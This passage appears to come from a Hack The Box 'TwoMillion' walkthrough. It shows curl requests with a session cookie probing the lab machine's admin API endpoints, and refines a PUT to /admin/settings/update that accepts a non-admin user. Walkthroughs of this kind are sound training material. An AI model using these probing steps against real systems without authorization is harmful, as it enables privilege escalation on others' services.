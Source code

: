 As expected we are not currently an administrative user. Let's check out the /admin/vpn/generate
endpoint by switching our request to POST and including our cookie once more:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" | jq 

* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Wed, 17 Sep 2025 14:18:20 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
{ [5 bytes data]
* Connection #0 to host 2million.htb left intact
```

We get `401 Unauthorized` because we are not an admin.

Now let's move to the final administrative endpoint, /admin/settings/update . We note that this request needs to be a PUT as shown in the output from /api/v1 :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" | jq  

<SNIP>

{
  "status": "danger",
  "message": "Invalid content type."
}
```

This time we do not get an Unauthorized error, but instead the API replies with Invalid content type . 

It is often for APIs to use JSON for sending and receiving data, and we already know that the API replies in JSON, so lets set the Content-Type header to JSON and try again:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" | jq

<SNIP>

{
  "status": "danger",
  "message": "Missing parameter: email"
}

```
